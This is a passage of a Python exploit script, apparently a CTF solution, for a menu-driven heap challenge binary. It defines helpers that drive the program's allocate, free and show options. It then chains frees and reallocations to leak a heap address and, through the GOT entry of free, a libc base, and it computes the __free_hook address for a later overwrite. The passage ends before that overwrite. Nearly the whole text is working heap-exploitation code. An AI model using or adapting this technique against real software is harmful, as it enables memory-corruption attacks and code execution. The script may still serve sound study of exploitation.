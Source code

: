 ```python=
    r.sendline(str(size))
    r.recvuntil(':')
    if size == 0:
        pass
    elif len(description) >= size - 1:
        r.send(description)
    else:
        r.sendline(description)
    r.recvuntil(':')
    r.sendline(str(severity))

def free(idx):
    r.recvuntil('>')
    r.sendline('3')
    r.recvuntil(':')
    r.sendline(str(idx))

def show(idx):
    r.recvuntil('>')
    r.sendline('4')
    r.recvuntil(':')
    r.sendline(str(idx))
    r.recvuntil('Description: ')
    return r.recvuntil('-----')[:-6]



free_got = 0x0000000000601fa0
free_base = 0x0000000000097950

__free_hook = 0x00000000003ed8e8

add(1, 1, '1', 0x68, 'a', 1) # 0
add(1, 1, '1', 0x68, 'a', 1) # 1
add(1, 1, '1', 0x68, 'a', 1) # 2
free(2)
free(0)

add(1, 1, '1', 0, '', 1) # 0
add(1, 1, '1', 0, '', 1) # 2
heap = u64(show(0).ljust(8, '\x00')) - 0x1e0
print ('heap : ', hex(heap))

free(0)
add(1, 1, '1', 0, '', 1) # 0
free(1)
free(0)


add(1, 1, '1', 0x68, p64(heap+0x60)+'a'*0x50+p64(0x71), 1) # 0
add(1, 1, '1', 0x68, 'a', 1) # 1
add(1, 1, '1', 0x68, p64(heap+0x60)+'a'*0x50+p64(0x71), 1) # 3

add(1, 1, '1', 0x68, 'a'*8+flat([0x31, 0, 0, free_got]), 1) # 4
libc = u64(show(1).ljust(8, '\x00')) - free_base
print ('libc : ', hex(libc))
__free_hook += libc
print ('__free_hook : ', hex(__free_hook))
free(4)
free(3)
free(0)
add(1, 1, '1', 0, '', 1) # 0
free(2)
```